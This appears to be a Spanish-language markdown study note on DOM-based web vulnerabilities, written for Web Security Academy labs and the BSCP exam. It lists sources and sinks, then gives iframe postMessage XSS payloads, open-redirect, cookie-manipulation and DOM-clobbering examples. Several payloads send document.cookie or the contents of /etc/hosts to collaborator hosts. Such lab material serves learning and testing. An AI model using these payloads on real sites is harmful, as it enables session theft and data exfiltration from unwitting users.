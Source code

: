 ## ¿Qué es el DOM?

El **Document Object Model (DOM)** es una representación jerárquica de los elementos existentes en una página web. Los sitios web pueden utilizar Javascript para manipular nodos y objectos del DOM, así como sus propiedades.

La manipulación del **DOM** en sí no es un problema, de hecho, es una parte integral de cómo funcionan los portales web modernos. Sin embargo, **Javascript** puede manejar datos de forma poco seguro permitiendo habilitar que sea vulnerable a diferentes tipos de ataques.

Las vulnerabilidades basadas en **DOM** surgen cuando un sitio web contiene **Javascript** que toma un valor que el atacante puede controlar, conocido como **fuente** (**source** en inglés) y lo pasa a una **función peligrosa**, conocida como **sumidero** (**sink** en inglés).

* Source: `location.search`
* Sink: `eval()` OR Sink HTML: `document.body.InnerHTML`

### Fuentes comunes

```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
AddEventListener
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```
### Sumideros Comunes:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

<hr>

- Source: **AddEventListener** `Primeros 3 labs, resumidos.`
	- LAB: DOM XSS Web Messages
    - `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

	* LAB: DOM XSS Web Messages Javascript:url
    - `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`
    - 
	*  LAB: DOM XSS Web Messages & **JSON** Parse
    - `<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

#### Pequeño ejemplo para filtrar la Cookie:  `javascript:url`

```js
//Filtrar la cookie: 
<iframe src="https://ID-LAB.web-security-academy.net/" 
onload="this.contentWindow.postMessage('javascript:fetch(`https://colaborador.com?cookie=${document.cookie}`)//http:','*')">
</iframe>

//etc/hosts
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" 
onload="this.contentWindow.postMessage('javascript:fetch(`https://YOUR-BURP-COLLABORATOR-SUBDOMAIN/?data=${btoa(await (await fetch(`/etc/hosts`)).text())}`)//http:','*')">
</iframe>

//EXAM BSCP me apareció en el STAGE 1 App #1
<iframe src=https://0a0700e703d0222e8184767a0037002d.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"redirect\",\"redirectUrl\":\"javascript:fetch(`https://vpoxa5f3ksate8svj2d7j80io9u0iu6j.oastify.com?cookie=${document.cookie}`)\"}","*")'>

<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:fetch(https://colaborador.com?cookie=${document.cookie})\"}","*")'>
```

- Check for DOM redirections (parameters hidden in source code)
- Cookies containing URLs

<hr>
### Steal a cookie: `img`

```
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://COLLABORATOR.com?collector=`+btoa(document.cookie))>','*')">
```

### DOM XSS using web messages `[ object Object ]` `AddEventListener()`

* En este acaso aparece un object de tipo Object en la pagina de inicio, y vemos que se procesa un **script** cuando hacemos Inspect con un source --> **AddEventListener** con un **InnerHTML** el cual deja muy claro que estamos ante un DOM Based vuln. 

```js
Notice that the home page contains an addEventListener() call that listens for a web message.

Go to the exploit server and add the following iframe to the body. Remember to add your own lab ID:

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">

//FOR BSCP:
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage(`<img src='http://burpcollaborator.net?c=`+document.cookie+`'>`, '*')">
```

### DOM XSS using web messages and a JavaScript URL

```
Notice that the home page contains an addEventListener() call that listens for a web message. 
The JavaScript contains a flawed indexOf() check that looks for the strings "http:" or "https:" anywhere within the web message. It also contains the sink location.href.

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

### DOM XSS using web messages and JSON.parse

```
Notice that the home page contains an event listener that listens for a web message. This event listener expects a string that is parsed using JSON.parse(). In the JavaScript, we can see that the event listener expects a type property and that the load-channel case of the switch statement changes the iframe src attribute.

<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### DOM Based Open Redirection `location.href`

```js
//PAYLOAD: & `Location.href`
The blog post page contains the following link, which returns to the home page of the blog:

<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>

//Y mandamos la URL para que cargue el server exploit así:
* https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

### DOM Based Cookie Manipulation `lastViewedProduct`

```js
//PAYLOAD: & `Cookie: SameSite=None`
//El problema recae en que la cookie es controlable por el atacante
1. Notice that the home page uses a client-side cookie called `lastViewedProduct`, whose value is the URL of the last product page that the user visited.
2. Go to the exploit server and add the following `iframe` to the body, remembering to replace `YOUR-LAB-ID` with your lab ID:

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
//encoded a URL, en caso tal de que no funcionara así, LA segunda fase. 

//EJEMPLO EXPLOTACION DEL LAB CUANDO LO HICÉ: 
<iframe src="https://ID-LAB.web-security-academy.net/product?productId=1&%27/%3E%3Cscript%3Eprint()%3C/script%3E" onload="if(!window.x)this.src='https://ID-LAB.web-security-academy.net';window.x=1;">

```

### DOM Clobbering to Enable XSS

```js
//La sección de comentarios implementa un script vulnerable el cual usa sumideros inseguros como xmlHttpRequest
//En la seccion de comentarios HTML tiré un: <img src=x onerror=alert(1)> y coló WTFjaja, pero la solución real es: 
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

//Está parseado en HTML pero en esencia es lo mismo que la teoria, en este caso se tomo la variable de `defaultAvatar`

- DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`

```

Eso es todo de dom, ave maría.